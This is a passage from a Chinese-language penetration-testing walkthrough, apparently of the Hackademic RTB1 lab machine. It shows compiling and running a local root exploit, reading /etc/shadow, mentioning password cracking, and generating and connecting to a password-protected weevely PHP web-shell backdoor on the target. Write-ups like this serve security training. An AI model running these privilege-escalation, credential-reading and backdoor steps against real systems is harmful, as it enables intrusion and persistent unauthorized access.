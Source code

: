 ```bash
gcc roro.c –ororo
```
接下来执行编译好的exp
```bash
./roro
```
![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910315177-0cc5236c-83d8-4cae-b278-c7307e3e1dd9.webp#averageHue=%231c382d&height=263&id=udd5ea4ee&originHeight=263&originWidth=574&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=574)<br />执行完成之后输入id命令
```bash
id
# 可以发现已经是root权限了
uid=0(root) gid=0(root)
```
![](https://cdn.nlark.com/yuque/0/2021/png/396745/1622910315048-efabd940-73c4-49eb-a95b-f5f720d98137.png#averageHue=%23361d15&height=44&id=ubefc626a&originHeight=44&originWidth=364&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=364)<br />现在可以查看/etc/shadow文件
```bash
cat /etc/shadow
```
![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910315311-a93227ed-f872-4c99-a522-9f1719aec1b6.webp#averageHue=%23173329&height=481&id=u5dd6d245&originHeight=481&originWidth=568&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=568)<br />可以使用”john theripper”工具破解所有用户的密码。但是不会这样做，需要在这个服务器上留下后门以方便在任何时候访问它。<br />用weevely制作一个php小马上传到服务器上。

1. weevely使用选项
```bash
root@bt:/pentest/backdoors/web/weevely#./main.py -
```
![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910315335-27a9887a-56bc-40f5-a9f1-16596da941fe.webp#averageHue=%2319352c&height=325&id=u042bd253&originHeight=325&originWidth=568&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=568)

2. 用weevely创建一个密码为koko的php后门
```bash
root@bt:/pentest/backdoors/web/weevely#./main.py -g -o hax.php -p koko
```
![](https://cdn.nlark.com/yuque/0/2021/webp/396745/1622910315304-9163ef9a-3c25-4f85-ab67-1d970e77c760.webp#averageHue=%23384151&height=76&id=u24260e78&originHeight=76&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />接下来上传到服务器之后来使用它
```bash
root@bt:/pentest/backdoors/web/weevely#./main.py -t -uhttp://hack-test.com/Hackademic_RTB1/wp-content/plugins/hax.php -pkoko
```
![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1622910315608-78b2e4a0-159c-414e-b750-8477e4dca339.jpeg#averageHue=%23000200&height=108&id=ufe21e7ae&originHeight=108&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)<br />测试hax.php后门<br />![](https://cdn.nlark.com/yuque/0/2021/jpeg/396745/1622910315834-fb2e6a60-e51d-4d36-88e5-5ec84ea05a12.jpeg#averageHue=%23281717&height=105&id=u2cce22c8&originHeight=105&originWidth=576&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=576)
